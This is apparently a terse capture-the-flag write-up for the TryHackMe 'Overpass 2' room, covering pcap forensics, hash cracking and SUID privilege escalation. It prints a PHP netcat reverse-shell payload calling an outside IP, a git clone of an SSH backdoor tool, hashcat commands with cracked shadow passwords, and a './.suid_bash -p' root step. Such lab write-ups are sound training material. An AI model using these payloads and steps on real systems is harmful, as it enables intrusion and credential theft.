 ```yaml
---
title: Overpass 2
description: 'Getting credentials from a pcap file and exploiting a bash binary with SUID permissions'
pubDate: 2020-12-30
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/96141387d9d4a22658f8db0ada67d62d.png'
---
```


## Wireshark recon
    /development/

    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

    ,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN. <- ROT47
        [{"name":"System","pass":"whenevernoteartinstant"}]

    git clone https://github.com/NinjaJc01/ssh-backdoor


## Shadow file, cracked with `fasttrack` wordlist
    - hashcat -m 1800 --username shadow.hash /usr/share/wordlists/fasttrack.txt
        paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:secuirty3
        szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:abcd123
        bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:secret12
        muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:1qaz2wsx


## Backdoor.hash (hash:salt)
    - hashcat -m 1710 backdoor.hash /usr/share/wordlists/rockyou.txt
        - november16

## Shell + user
    - ssh -p 2222 10.10.227.161 <- november16

## Root
    - ./.suid_bash -p

